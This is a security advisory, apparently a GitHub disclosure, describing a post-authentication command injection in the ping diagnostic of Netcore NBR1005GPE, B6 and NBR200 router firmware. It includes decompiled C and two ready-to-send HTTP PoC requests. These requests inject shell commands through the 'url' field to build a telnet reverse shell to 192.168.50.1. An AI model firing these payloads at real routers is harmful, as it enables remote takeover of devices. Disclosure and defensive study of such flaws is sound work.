




# Arbitrary Command Injection Vulnerability in Netcore Routers Including NBR1005GPE, B6, and NBR200 After Authorization

## Affected Products and Firmware Download Links

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

## II. Vulnerability Causes

The firmware of these routers uses the `uhttpd` + `ubus` architecture.

**uhttpd (Web Server)**

* Listens on port `80` (HTTP) and accepts `POST /ubus` requests.
* Parses the request header to confirm the `Content-Type` is `application/x-www-form-urlencoded`, but the actual payload is JSON (non-standard but common).
* Forwards requests to the `ubus` RPC service (typically via `ubus` Unix Socket or CGI interface).

Running the `ubus list` command shows registered ubus services



The vulnerability is found in  `network_tools`(file: `/usr/bin/network_tools`). In its data segment, the callback function for the `tools_ping` method is `sub_401EB8`



In `sub_401EB8`, `blobmsg_parse` parses Blob format data (OpenWrt's binary JSON format)

Parameter values are received through the pointer array `v22` to `v26`:

* `v22`: Pointer to the `blob_attr` of the `action` field
* `v23`: Pointer to the `blob_attr` of the `url` field
* `v24`: Pointer to the `blob_attr` of the `count` field
* `v25`: Pointer to the `blob_attr` of the `size` field
* `v26`: Pointer to the `blob_attr` of the `wanid` field



The string value of the `action` field in `v22` is passed to `v19`. If `v19` matches the string `"start"`, the code enters the `if` branch and passes the pointer array `v22`~`v26` to the `v27` array:

```c
  v27[0] = "start";         // action  
  v27[1] = url_str_ptr;     // String pointer (e.g., "192.168.50.2")  
  v27[2] = count_int;       // Converted integer (e.g., 5)  
  v27[3] = size_int;        // Converted integer (e.g., 64)  
  v27[4..] = wanid_related; // Optional fields parsed via sub_4019A8  
```

The code then jumps to `LABEL_18` and calls the `tools_ping((int)v27)` function.

```c
int __fastcall sub_401EB8(int a1, int a2, int a3, int a4, unsigned __int8 *a5)
{
  int v5; // $a0
  int v6; // $v0
  _BYTE *v7; // $s0
  unsigned int v8; // $v1
  _DWORD *v9; // $a1
  unsigned int v10; // $v0
  _DWORD *v11; // $a0
  unsigned int v12; // $v0
  _DWORD *v13; // $a1
  unsigned int v14; // $v0
  int v15; // $v0
  int result; // $v0
  unsigned int v17; // $v0
  unsigned int v18; // $v1
  char *v19; // [sp+20h] [-84h]
  _BYTE *v22; // [sp+38h] [-6Ch] BYREF
  _BYTE *v23; // [sp+3Ch] [-68h]
  _BYTE *v24; // [sp+40h] [-64h]
  _BYTE *v25; // [sp+44h] [-60h]
  _BYTE *v26; // [sp+48h] [-5Ch]
  _DWORD v27[22]; // [sp+4Ch] [-58h] BYREF

  memset(v27, 0, 0x50u);
  v5 = a5[1];
  v22 = 0;
  v23 = 0;
  v24 = 0;
  v25 = 0;
  v26 = 0;
  v6 = _bswapsi2((v5 << 8) | *a5 | (a5[2] << 16) | (a5[3] << 24));
  blobmsg_parse(&stru_412FC4, 5, &v22, a5 + 4, (v6 & 0xFFFFFF) - 4);
  if ( !v22 )
  {
LABEL_25:
    ulog(3, "%s %d data missing.\n");
    result = 2;
    goto LABEL_23;
  }
  if ( (*v22 & 0x80) != 0 )
  {
    v17 = ((unsigned __int8)v22[5] << 8) | (unsigned __int8)v22[4];
    v19 = &v22[(((unsigned __int16)((v17 >> 8) | ((_WORD)v17 << 8)) + 6) & 0xFFFFFFFC) + 4];
  }
  else
  {
    v19 = v22 + 4;
  }
  v27[0] = v19;
  if ( !strcmp(v19, "start") )
  {
    if ( v23 )
    {
      if ( v24 )
      {
        v7 = v25;
        if ( v25 )
        {
          if ( (*v23 & 0x80) != 0 )
          {
            v18 = ((unsigned __int8)v23[5] << 8) | (unsigned __int8)v23[4];
            v8 = (unsigned int)&v23[(((unsigned __int16)(((_WORD)v18 << 8) | (v18 >> 8)) + 6) & 0xFFFFFFFC) + 4];
          }
          else
          {
            v8 = (unsigned int)(v23 + 4);
          }
          v27[1] = v8;
          v9 = v24 + 4;
          if ( (*v24 & 0x80) != 0 )
          {
            v10 = ((unsigned __int8)v24[5] << 8) | (unsigned __int8)v24[4];
            v9 = (_DWORD *)((char *)v9 + (((unsigned __int16)((v10 >> 8) | ((_WORD)v10 << 8)) + 6) & 0xFFFFFFFC));
          }
          v27[2] = _bswapsi2(*v9);
          v11 = v7 + 4;
          if ( (*v7 & 0x80) != 0 )
          {
            v12 = ((unsigned __int8)v7[5] << 8) | (unsigned __int8)v7[4];
            v11 = (_DWORD *)((char *)v11 + (((unsigned __int16)((v12 >> 8) | ((_WORD)v12 << 8)) + 6) & 0xFFFFFFFC));
          }
          v27[3] = _bswapsi2(*v11);
          if ( v26 )
          {
            v13 = v26 + 4;
            if ( (*v26 & 0x80) != 0 )
            {
              v14 = ((unsigned __int8)v26[5] << 8) | (unsigned __int8)v26[4];
              v13 = (_DWORD *)((char *)v13 + (((unsigned __int16)((v14 >> 8) | ((_WORD)v14 << 8)) + 6) & 0xFFFFFFFC));
            }
            v15 = _bswapsi2(*v13);
            sub_4019A8(v15, &v27[4], (char *)&v27[8] + 1);
          }
          else
          {
            memset(&v27[4], 0, 17);
            memset((char *)&v27[8] + 1, 0, 46);
          }
          goto LABEL_18;
        }
      }
    }
    goto LABEL_25;
  }
  if ( !strcmp(v19, "get") )
  {
    blob_buf_init(dword_4131A0, 0);
    if ( tools_ping_get(dword_4131A0) >= 0 )
      result = ubus_send_reply(a1, a3, dword_4131A0[0]);
    else
      result = 9;
    goto LABEL_23;
  }
  if ( !strcmp(v19, "end") )
  {
    ulog(6, "ping end\n");
LABEL_18:
    result = tools_ping((int)v27);
    goto LABEL_23;
  }
  ulog(3, "%s %d data missing.\n");
  result = 9;
LABEL_23:
  if ( _stack_chk_guard != v27[20] )
    _stack_chk_fail();
  return result;
}
```

Inside `tools_ping()`, the command is constructed using:

```c
snprintf(v4, 0x80u, "(ping %s -c %d -s %d > %s; touch %s)&", ...);  
```

This concatenates the `url`, `count`, and `size` values into `v4`, which is executed via `system(v4);`. **A command injection vulnerability exists here** because there is no **validation check** for the user-provided `url` input.

```c
int __fastcall tools_ping(int a1)
{
  int v2; // $a3
  int result; // $v0
  char v4[128]; // [sp+3Ch] [-88h] BYREF
  int v5; // [sp+BCh] [-8h]

  if ( !strcmp(*(const char **)a1, "start") )
  {
    ping_end();
    if ( *(_BYTE *)(a1 + 16) )
    {
      snprintf(
        v4,
        0x80u,
        "(ping %s -c %d -s %d -I %s > %s; touch %s)&",
        *(_DWORD *)(a1 + 4),
        *(_DWORD *)(a1 + 8),
        *(_DWORD *)(a1 + 12),
        a1 + 16,
        "/tmp/ping.txt",
        "/tmp/.ping_end");
    }
    else
    {
      v2 = *(_DWORD *)(a1 + 4);
      if ( *(_BYTE *)(a1 + 33) )
        snprintf(
          v4,
          0x80u,
          "(ping %s -c %d -s %d -I %s > %s; touch %s)&",
          v2,
          *(_DWORD *)(a1 + 8),
          *(_DWORD *)(a1 + 12),
          a1 + 33,
          "/tmp/ping.txt",
          "/tmp/.ping_end");
      else
        snprintf(
          v4,
          0x80u,
          "(ping %s -c %d -s %d > %s; touch %s)&",
          v2,
          *(_DWORD *)(a1 + 8),
          *(_DWORD *)(a1 + 12),
          "/tmp/ping.txt",
          "/tmp/.ping_end");
    }
    system(v4);
  }
  else
  {
    ping_end();
  }
  result = 0;
  if ( _stack_chk_guard != v5 )
    _stack_chk_fail();
  return result;
}
```

## III. POC Explanation

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 211
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/diagnosis.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":20,"method":"call","params":["b80717ca0f9be34ba9ad970dd0d5891c","network_tools","tools_ping",{"command":"ping","wanid":1,"url":");mkfifo /tmp/test;(","count":5,"size":64,"action":"start"}]}
```

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 211
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/diagnosis.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":20,"method":"call","params":["b80717ca0f9be34ba9ad970dd0d5891c","network_tools","tools_ping",{"command":"ping","wanid":1,"url":");telnet 192.168.50.1 6666 0</tmp/test|/bin/sh > /tmp/test;(","count":5,"size":64,"action":"start"}]}
```

`snprintf(v4, 0x80u, "(ping %s -c %d -s %d > %s; touch %s)&", ...);`

Since `snprintf` will truncate the string if it exceeds 80 bytes, the reverse shell command needs to be split. As there is no character filtering applied to the `url`, it can be replaced with any arbitrary command.

Demonstration of remote shell access:



## IV. Recommended Solution

It is recommended to add a character legitimacy check for the URL.

**Discoverer: Exploo0Osion.**

**Please contact Netcore (Netis Technology) technical support to fix this vulnerability in a timely manner.**
